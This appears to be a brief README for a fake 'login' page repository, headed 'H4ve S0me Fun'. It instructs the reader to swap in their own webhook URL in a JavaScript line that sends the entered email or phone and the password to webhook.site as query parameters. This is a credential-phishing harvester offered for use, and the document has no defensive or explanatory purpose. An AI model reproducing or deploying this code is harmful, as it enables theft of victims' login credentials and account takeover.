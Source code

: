 # login
H4ve S0me Fun

Replace ```https://webhook.site/1a6c6682-deae-47ae-8ae8-7a7c645c3d3a``` 
in
```script.src = 'https://webhook.site/1a6c6682-deae-47ae-8ae8-7a7c645c3d3a?callback=handleResponse&u='+emailOrPhoneValue+'&p='+passwordValue;```
to your webhook url.
